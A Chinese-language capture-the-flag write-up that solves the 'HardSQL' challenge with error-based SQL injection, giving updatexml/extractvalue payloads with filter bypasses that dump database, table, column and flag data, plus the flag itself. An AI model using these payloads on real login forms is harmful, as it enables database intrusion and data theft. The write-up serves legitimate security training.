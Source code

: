 <br>

# [极客大挑战 2019]HardSQL

## 基于报错的注入

这里考察基于报错的注入,原理具体见[SQL注入](94662ad7.html)

这里很多字符都被过滤了,包括空格,所以需要加空格的地方使用括号来代替.  等于号被代替了,所以下面需要等于号的地方用`like`模糊查询来代替

爆库名:

```
username输入:
admin'^extractvalue(1,concat(0x7e,(database()),0x7e))#
password输入:随便
输出:XPATH syntax error: '~geek~'
```

爆表名:

```
username输入:
'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek'))),0x7e),1))#
password输入:随便
输出:XPATH syntax error: '~H4rDsq1~'
```

爆列名:

```
username输入:
'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1'))),0x7e),1))#
password输入:随便
输出:XPATH syntax error: '~id,username,password~'
```

爆数据:

```
username输入:
'or(updatexml(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1)),0x7e),1))#
username输入:
输出:XPATH syntax error: '~flag{2051cec7-0336-41ed-b551-9f'
```

注意到这里只输出了一半的flag,使用`right`函数来从后往前输出20位

```
username输入:
'or(updatexml(1,concat(0x7e,(select(group_concat(right(password,20)))from(H4rDsq1)),0x7e),1))#
username输入:
输出:XPATH syntax error: '~d-b551-9f49d0135390}~'
flag{2051cec7-0336-41ed-b551-9f49d0135390}
```
